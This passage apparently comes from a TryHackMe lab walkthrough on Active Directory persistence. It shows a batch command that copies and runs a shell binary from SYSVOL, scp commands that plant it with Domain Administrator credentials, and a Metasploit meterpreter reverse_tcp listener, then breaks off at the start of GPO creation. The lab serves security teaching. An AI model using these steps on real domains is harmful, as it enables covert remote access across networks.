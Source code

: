 - **AttackBox**

```powershell
copy  \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 &&  C:\tmp\<username>_shell.exe
```

You will see that the script executes three commands chained together with `&&`. The script will copy the binary from the SYSVOL directory to the local  machine, then wait 20 seconds, before finally executing the binary.

We can use SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:

- **Terminal**      

```powershell
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

Finally, let's start our MSF listener:

```shell
msfconsole -q -x "use exploit/multi/handler; set payload  windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT  4445;exploit"
```

With our prep now complete, we can finally create the GPO that will execute it. You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.

### GPO Creation

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

1. In your runas-spawned terminal, type MMC and press enter.
2. Click on **File**->**Add/Remove Snap-in...**
3. Select the **Group Policy Management** snap-in and click **Add**
4. Click **OK**

You should be able to see the GPO manager:

![GPO Edit](assets/62aab3368a951e8180c35bef9ed82ead.png)
